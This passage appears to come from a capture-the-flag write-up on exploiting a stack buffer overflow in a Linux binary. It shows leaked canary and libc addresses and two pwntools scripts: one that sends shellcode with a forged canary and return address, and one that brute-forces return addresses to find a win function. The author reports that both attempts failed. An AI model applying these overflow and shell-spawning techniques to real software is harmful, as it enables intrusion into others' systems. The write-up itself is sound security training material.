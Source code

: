 I've analysed the output in comparison to the stack of other binaries run under ubuntu:22.04 with the same libc, and added comments at the important findings.

With a properly identified libc address we can calculate the libc base address, but we have not been given the libc.so.6 file. Luckily we can get it from ubuntu 22.04, from another challenge using the same libc, or copying it from a ubuntu 22.04 docker container.

```
[*] canary 0xf639a0bd15599900
[*] rbp 0x7ffd9b8baad0
[*] exe_base 0x56380948e000
[*] libs_start_call_main 0x7f41fb0cad90
...
[*] libc base @ 0x7f41fb0a1000
```

## Executable stack? - NO

So the first thing I tried was shellcode on the stack, and gradually searching backward for the buffer.
This didn't work out so well.. here's the script anyway:

```python

def shellcodeIt(Iterations):
    shellcode = asm(shellcraft.sh())
    for i in range(Iterations):
        target = rbp - 0x48 - 8*i
        payload = flat({ 0: shellcode, 0x48: p64(canary), 0x50: p64(rbp), 0x58: p64(target)})
        try:
            io = start()
            io.sendlineafter(b'> ', payload)
            io.interactive()
            io.close()
        except:
            io.close()
```

## Searching for a WIN function? - FAIL

I tried searching for a win function relative to the RIP we found on the stack. Got the program to behave in different ways, printing out various strings, leaking addresses, looping to main and printing socket errors. But no flag.

```python
def ret2code(Start, Iterations):
    for i in range(Iterations):
        try:
            io = start()
            target = 0x5633e079165c-Start-i
            payload = flat({ 0x48: p64(canary), 0x50: p64(rbp), 0x58: p64(target)})
            io.sendlineafter(b'> ', payload)
            io.interactive()
            io.close()
        except:
            io.close()
```
